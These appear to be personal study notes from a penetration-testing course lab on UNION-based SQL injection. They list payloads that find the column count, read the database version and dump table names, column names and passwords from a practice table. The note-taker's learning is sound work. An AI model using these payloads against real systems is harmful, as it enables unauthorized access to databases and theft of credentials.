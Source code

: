 SQL Injection Union

Wednesday, October 18, 2023

10:53 AM

-   Send basic payload like a name (Jeremy)

-   Try double and single quote (jeremy\' jeremy\")

-   Try standalone single and double quote or other special characters

> \*MODERN APPS MAY NOT THROW ANY ERRORS BACK FOR US AS CLUES
>
>  

-   Try command with terminator (jeremy\' or 1=1#)

> ![](008_SQL_Injection_Union_000.png){width="4.802083333333333in" height="2.5416666666666665in"}
>
> This return indicates SQL injection vulnerability \# or \-- - are terminators for mysql
>
>  

-   Try jeremy\' union select null#

    -   jeremy\' union select null, null#

    -   jeremy\' union select null, null, null#

    -   Don\'t forget that you can try many more nulls to find the right number of columns

    -   Can reveal table names

> ![](008_SQL_Injection_Union_001.png){width="5.614583333333333in" height="2.1041666666666665in"}
>
> We finally get a hit on 3 null so we know 3 columns are being returned but some of the results may just be hidden from the user

 

-   We can also add version at the end to get version of DB returned

    -   jeremy\' union select null, null, version()#

> ![](008_SQL_Injection_Union_002.png){width="3.9791666666666665in" height="1.9583333333333333in"}
>
>  

-   jeremy\' union select null, null, table_name from information_schema.tables# to pull

> ![](008_SQL_Injection_Union_003.png){width="6.677083333333333in" height="7.0625in"}
>
> Dumps all tables from DB
>
>  

-   jeremy\' union select null, null, column_name from information_schema.columns#

> ![](008_SQL_Injection_Union_004.png){width="6.802083333333333in" height="7.177083333333333in"}
>
> Dump all column names
>
>  

-   jeremy\' union select null, null, password from injection0x01#

> ![](008_SQL_Injection_Union_005.png){width="5.0625in" height="2.90625in"}
>
> Dump them passwords
>
>  
>
>  

\*PLAY AROUND WITH INT AND STR IN YOUR NULL VALUES\* if there is an id column or something like that it may need an int example: null(int) or a number.

 

Portswigger SQL cheat sheet

[SQL injection cheat sheet \| Web Security Academy (portswigger.net)](https://portswigger.net/web-security/sql-injection/cheat-sheet)
